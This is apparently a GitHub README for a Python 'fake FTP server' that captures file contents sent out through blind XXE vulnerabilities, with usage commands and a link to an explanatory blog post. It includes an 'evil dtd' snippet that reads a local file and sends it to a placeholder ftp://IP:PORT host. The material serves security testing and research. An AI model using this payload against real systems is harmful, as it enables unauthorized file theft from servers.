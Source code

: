 # Fake-FTP-Server
This is a fake ftp server to receive data when you exploit blind XXE vulnerabilities to read files.    
[原理： https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/](https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/)

### Usage:
```
python fake-ftp-server.py PORT output-file

python fake-ftp-server.py 1234 res.txt
```
The fake server will run on PORT.        
The program may use another port for auxiliary (default is 63568), if it is occupied, please change it by yourself!

The evil dtd is like:
```xml
<!ENTITY % file SYSTEM "file://">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://IP:PORT/%file;'>">
```
![example](./images/example.png)